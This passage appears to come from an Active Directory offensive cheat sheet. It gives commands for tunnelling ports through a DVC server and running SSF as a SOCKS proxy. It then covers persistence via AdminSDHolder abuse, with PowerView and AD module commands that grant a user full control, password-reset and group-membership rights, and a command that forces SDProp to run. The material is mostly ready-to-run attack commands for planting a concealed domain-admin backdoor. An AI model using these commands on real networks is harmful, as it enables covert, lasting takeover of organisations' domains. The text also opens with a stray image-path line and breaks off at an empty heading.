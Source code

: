 _Redirect SSF port with DVC server:_

```
PS > ./UDVC-Server.exe -c -p 8080 -i 127.0.0.1

[*] Setting up client socket
[*] Connected to: 127.0.0.1:8080
[*] Starting thread RsWc
[*] Starting thread RcWs
[*] Wait for threads to exit...
```

_SSFD as a SOCK proxy_

```
PS > ssf.exe -D 9090 -p 31337 127.0.0.1
```

### Persistence

#### SIDHistory Injection

#### AdminSDHolder and SDProp

> \[ ❓ ] : With DA privileges (Full Control/Write permissions) on the AdminSDHolder object, it can be used as a backdoor/persistence mechanism by adding a user with Full Permissions (or other interesting permissions) to the AdminSDHolder object. In 60 minutes (when SDPROP runs), the user will be added with Full Control to the AC of groups like Domain Admins without actually being a member of it.

> using [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) :

```
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName $user -Rights All -Verbose
```

> using [AD Module](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps) :

```
Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=megacorp,DC=megacorp,DC=local' -Principal $user -Verbose
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName $user -Rights ResetPassword -Verbose
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName $user -Rights WriteMembers -Verbose
```

_Run SDProp manually_

```
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

### ACLs and ACEs Abusing

#### GenericAll
